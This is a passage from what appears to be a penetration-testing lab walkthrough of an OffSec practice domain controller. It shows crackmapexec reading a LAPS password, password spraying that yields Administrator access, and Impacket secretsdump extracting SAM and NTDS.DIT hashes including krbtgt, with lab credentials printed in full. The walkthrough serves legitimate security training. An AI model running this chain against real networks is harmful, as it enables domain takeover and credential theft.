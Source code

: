 ```bash
eaburrow                                              2020-11-04 07:35:05.652273  <never>             
cluddy                                                2020-11-04 07:35:05.703274  <never>             
agitthouse                                            2020-11-04 07:35:05.760273  <never>             
fmcsorley                                             2020-11-04 07:35:05.815275  2021-02-16 15:39:34.483491 
domainadmin                                           2021-02-16 07:24:22.190351  2023-09-25 23:47:29.894236
```

I added Administrator and domainadmin to the users.txt

# Finding users with better privilege

crackmapexec ldap laps module let’s you find LAPS info

```bash
┌──(root💀kali)-[~/hatch]
└─# crackmapexec ldap 192.168.175.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.175.122 -M laps
/usr/lib/python3/dist-packages/paramiko/transport.py:219: CryptographyDeprecationWarning: Blowfish has been deprecated
  "class": algorithms.Blowfish,
LDAP        192.168.175.122 389    HUTCHDC          [*] Windows 10.0 Build 17763 x64 (name:HUTCHDC) (domain:hutch.offsec) (signing:True) (SMBv1:False)
LDAP        192.168.175.122 389    HUTCHDC          [+] hutch.offsec\fmcsorley:CrabSharkJellyfish192 
LAPS        192.168.175.122 389    HUTCHDC          [*] Getting LAPS Passwords
LAPS        192.168.175.122 389    HUTCHDC          Computer: HUTCHDC$             Password: yH{w0s#-B.yV50
```

`Password: yH{w0s#-B.yV50` is added to the password list.

Run the same command: `crackmapexec smb 192.168.175.122 -u ./users.txt -p ./pass.txt --continue-on-success`

and I got the new result

`SMB 192.168.175.122 445 HUTCHDC [+] hutch.offsec\Administrator:yH{w0s#-B.yV50 (Pwn3d!)`

Fortunately, this belongs to the Admin.

Let’s get NTLM hash with Impacket script: secretdump.py

```bash
┌──(root💀kali)-[~/hatch]
└─# secretsdump.py hutch.offsec/administrator:'yH{w0s#-B.yV50'@192.168.175.122
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xb24173e6ac9aa789ab05a4acceeb27ba
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bab179eba40e413086aa37742476c646:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
.
.
.
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:333078b4951591731a68da1d3fb53cdb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3c37d961d2fbbc1eb9e4d09f145ad361:::
```